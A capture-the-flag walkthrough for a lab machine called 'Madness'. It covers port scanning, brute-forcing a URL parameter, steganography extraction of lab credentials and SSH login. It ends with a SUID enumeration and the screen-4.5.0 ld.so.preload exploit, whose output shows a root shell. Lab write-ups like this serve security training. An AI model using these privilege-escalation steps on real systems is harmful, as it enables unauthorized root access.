



# Madness

Will you be consumed by Madness?

## Flag Submission


Please note this challenge does not require SSH brute forcing.

Use your skills to access the user and root account!

### user flag
Let's enumerate ports
```
nmap -Pn -T5 10.10.233.206
Starting Nmap 7.80 ( https://nmap.org ) at 2025-02-20 06:00 GMT
Nmap scan report for 10.10.233.206
Host is up (0.00051s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:3D:0C:87:22:A9 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.30 seconds
```

Find broken image

Restore jpg format by hexedit

PNG bytes:
`89 50 4E 47 0D 0A 1A 0A`

JFIF bytes:
`FF D8 FF E0 00 10 4A 46 49 46 00 01`

Let's break it down:

| Hex Code        | Description                             |
|---------------|---------------------------------|
| **FF D8**     | Start of Image (SOI) in JPEG format.  |
| **FF E0**     | APP0 marker (usually JFIF).         |
| **00 10**     | APP0 header length (16 bytes).      |
| **4A 46 49 46** | The string "JFIF" in ASCII.       |
| **00**        | Null byte.                         |
| **01**        | JFIF version 1.01.                 |


Go to http://10.10.233.206/th1s_1s_h1dd3n/



http://10.10.233.206/th1s_1s_h1dd3n/?secret=0

Let use Burp -> Intruder



http://10.10.233.206/th1s_1s_h1dd3n/?secret=73



Some secret - `y2RPJ4QaPF!B` but for what?

It was very hard to remember, that Stegonagraphy exist =)
```
steghide extract -sf thm.jpg
Enter passphrase: 
wrote extracted data to "hidden.txt".
root@ip-10-10-97-238:~# ls
burp.json   Downloads     Pictures  Scripts            thm.jpg
CTFBuilder  hidden.txt    Postman   snap               Tools
Desktop     Instructions  Rooms     thinclient_drives
root@ip-10-10-97-238:~# cat hidden.txt
Fine you found the password! 

Here's a username 

wbxre

I didn't say I would make it easy for you!
```

Use ROT13 bruteforce for wbxre

Nice! We have username!

Try SSH with previous password - Unsuccess

```
ssh joker@10.10.65.48
The authenticity of host '10.10.65.48 (10.10.65.48)' can't be established.
ECDSA key fingerprint is SHA256:Wi0RpQNwFTfSuABX4f8gKrf3UzJBmrNOdVjVnBBqL5E.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.65.48' (ECDSA) to the list of known hosts.
joker@10.10.65.48's password: 
Permission denied, please try again.
```

Another breakpoint...what should we do

Stegonagraphy time! Again

Check this image - 


```
steghide extract -sf 5iW7kC8.jpeg
Enter passphrase: 
wrote extracted data to "password.txt".
cat password.txt
I didn't think you'd find me! Congratulations!

Here take my password

*axA&GF8dP
```

Finally we have login and password, hope for SSH this time

```
ssh joker@10.10.65.48
joker@10.10.65.48's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-170-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Sun Jan  5 18:51:33 2020 from 192.168.244.128
joker@ubuntu:~$ ls
user.txt
joker@ubuntu:~$ cat user.txt
```

Check, do we have some sudo priveleges 
```
joker@ubuntu:~$ sudo -l
[sudo] password for joker: 
Sorry, user joker may not run sudo on ubuntu.
```
Okay, let's try to search somethimg interesting
```
find / -type f -user root -perm -4000 -exec ls -ldb {} \; 2>>/dev/null
-rwsr-xr-x 1 root root 428240 Mar  4  2019 /usr/lib/openssh/ssh-keysign
-rwsr-xr-- 1 root messagebus 42992 Nov 29  2019 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 10624 May  8  2018 /usr/bin/vmware-user-suid-wrapper
-rwsr-xr-x 1 root root 75304 Mar 26  2019 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 54256 Mar 26  2019 /usr/bin/passwd
-rwsr-xr-x 1 root root 39904 Mar 26  2019 /usr/bin/newgrp
-rwsr-xr-x 1 root root 40432 Mar 26  2019 /usr/bin/chsh
-rwsr-xr-x 1 root root 71824 Mar 26  2019 /usr/bin/chfn
-rwsr-xr-x 1 root root 136808 Oct 11  2019 /usr/bin/sudo
-rwsr-xr-x 1 root root 30800 Jul 12  2016 /bin/fusermount
-rwsr-xr-x 1 root root 40128 Mar 26  2019 /bin/su
-rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 1588648 Jan  4  2020 /bin/screen-4.5.0
-rwsr-xr-x 1 root root 1588648 Jan  4  2020 /bin/screen-4.5.0.old
-rwsr-xr-x 1 root root 40152 Oct 10  2019 /bin/mount
-rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 27608 Oct 10  2019 /bin/umount
```

Try mount - nope

We see `screen-4.5.0`
Let's check it out - https://www.exploit-db.com/exploits/41154

Don't forget to make this script executable

```
joker@ubuntu:~$ chmod +x exploit
joker@ubuntu:~$ ./exploit
~ gnu/screenroot ~
[+] First, we create our shell and library...
/tmp/libhax.c: In function \u2018dropshell\u2019:
/tmp/libhax.c:7:5: warning: implicit declaration of function \u2018chmod\u2019 [-Wimplicit-function-declaration]
     chmod("/tmp/rootshell", 04755);
     ^
/tmp/rootshell.c: In function \u2018main\u2019:
/tmp/rootshell.c:3:5: warning: implicit declaration of function \u2018setuid\u2019 [-Wimplicit-function-declaration]
     setuid(0);
     ^
/tmp/rootshell.c:4:5: warning: implicit declaration of function \u2018setgid\u2019 [-Wimplicit-function-declaration]
     setgid(0);
     ^
/tmp/rootshell.c:5:5: warning: implicit declaration of function \u2018seteuid\u2019 [-Wimplicit-function-declaration]
     seteuid(0);
     ^
/tmp/rootshell.c:6:5: warning: implicit declaration of function \u2018setegid\u2019 [-Wimplicit-function-declaration]
     setegid(0);
     ^
/tmp/rootshell.c:7:5: warning: implicit declaration of function \u2018execvp\u2019 [-Wimplicit-function-declaration]
     execvp("/bin/sh", NULL, NULL);
     ^
[+] Now we create our /etc/ld.so.preload file...
[+] Triggering...
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /tmp/screens/S-joker.

# whoami
root
# cat /root/root.txt
```
